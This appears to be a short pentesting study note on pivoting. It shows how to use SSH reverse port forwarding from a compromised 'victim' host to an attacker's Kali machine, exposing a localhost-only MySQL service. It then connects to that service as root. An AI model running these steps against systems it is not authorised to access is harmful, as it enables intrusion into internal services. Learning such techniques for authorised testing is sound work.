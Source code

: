 In some instances, a root process may be bound to an internal port, through which it communicates.

If for some reason, an exploit cannot run locally on the target machine, the port can be forwarded using SSH to your local machine:

```bash - target
ssh -R $KALI_PORT:127.0.0.1:$TARGET_PORT kali@$KALI
```

The exploit code can now be run on your local machine at whichever port you chose.

First, let's discover the port mysql is running on:

```bash - kali
ss -antp
```

OR

```bash - kali
netstat -nl
```

![[Pasted image 20211229224451.png]]

It is running on its default port, 3306. Notice is bound to local address, meaning we cannot access it externally.

In Kali:

```bash - kali
service ssh start
```

In Victim:
```bash - victim
ssh -R 4444:127.0.0.1:3306 kali@$KALI
```

In Kali:
```bash - kali
mysql -u root -h 127.0.0.1 -P 4444
```
